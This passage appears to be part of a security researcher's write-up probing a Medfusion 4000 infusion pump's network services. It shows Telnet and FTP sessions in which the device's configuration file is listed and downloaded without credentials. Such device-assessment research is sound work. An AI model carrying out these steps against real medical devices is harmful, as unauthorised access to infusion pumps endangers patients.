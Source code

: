 #### Telnet

Telnet is always a warning sign on an embedded system. Avoid Telnet!

```bash
$ telnet 192.168.100.150
Trying 192.168.100.150...
Connected to 192.168.100.150.
Escape character is '^]'.

RTCS v2.96.00 Telnet server



Welcome to the Medfusion 4000 Configuration Interface

password:
```

We don't have any password for the configuration interface and it isn't available via an Internet search. The telnet interface is quite slow so brute forcing the password is not viable. We do now know that the service is called a "RTCS" Telnet server and it is version 2.96.00. Through internet searches, this RTCS clue revealed that this device is running the MQX embedded real-time operating system (RTOS).

Let's look at other services and return to Telnet later.

#### FTP

FTP might get us access to a filesystem with firmware and other configuration files.

```bash
$ ftp 192.168.100.150
Connected to 192.168.100.150.
220 RTCS FTP Ready
Name (192.168.100.150:work): anonymous
331 Looking up password
Password:
221 Goodbye!
421 Service not available, remote server has closed connection
```

Connecting does not work as we do not have the proper credentials. Let's connect without auto logging in with any credentials and see if we can interact with the FTP server in any useful ways.

```bash
$ ftp -d -n 192.168.100.150
Connected to 192.168.100.150.
220 RTCS FTP Ready
ftp> dir
---> PORT 192,168,100,2,215,216
200 Port command okay
---> LIST
150 Opening ASCII mode data connection
2                  0 00-00-1980  00:00:00
CONFIG.XML      1764 06-23-2016  08:25:30
STORED~1        2140 06-24-2016  06:56:24
HEAD_F~1      491648 01-01-1980  00:00:48
HEAD_C~1        6224 10-26-2013  02:59:04
ftp> get CONFIG.XML
---> PORT 192,168,100,2,215,217
200 Port command okay
---> RETR CONFIG.XML
150 Opening data connection for RETR (192.168.100.2,-10279)
226 File sent OK - 1764 bytes in 0.000 sec
ftp: 1764 bytes received in 0.04Seconds 44.10Kbytes/sec.
```
